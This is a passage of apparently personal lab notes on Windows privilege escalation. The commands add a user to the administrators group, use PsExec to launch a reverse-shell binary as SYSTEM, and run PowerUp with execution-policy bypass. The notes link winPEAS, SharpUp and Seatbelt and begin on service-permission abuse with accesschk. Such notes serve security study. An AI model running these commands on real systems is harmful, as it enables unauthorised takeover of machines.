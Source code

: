 Run in victim:
`file`
## RDP
If we have access to RDP or we can enable it , we cann add our low privileged user to the administrators group and then spawn an admin commannd prompt via GUI 
`net localgroup administrators <username> /add`

## Admin -> SYSTEM
We can use PsExec64 tool to do that from windows sysinternals 
`PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe`

## Tools
PowerUP(powershell script) and SharpUp(pre compiled) used to find privesc method fast
[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
Usage:
```
-powershell -exec bypass 
-. .\PowerUp.ps1 (load script)
-Invoke-AllChecks
```

[[Post exploitation]]

[SharpUp](https://github.com/r3motecontrol/Ghoostpack-CompiledBinaries/blob/master/SharpUp.exe)

**Seatbelt** - Enum tool can run enum check. it provide further info to help in priv esc.

[Seatbelt](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe)

**winPeas** is like linpeas for windows
hunts for privesc misconfigs.
[](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe)
Enable colors:
```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

**accesschk.exe** Checks user access control rights. 
If you arent in RDP then it might create a problem cuz it shows a pop up in cmd. So use **Old version which has /accepteula option**

# Service Exploits
## Insecure Service Permissions
Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
command:
`accesschk.exe /accepteula -uwcqv user daclsvc`

so here we have the permission to change the config (SERVICE_CHANGE_CONFIG)

listing info about service:
`sc qc daclsvc`
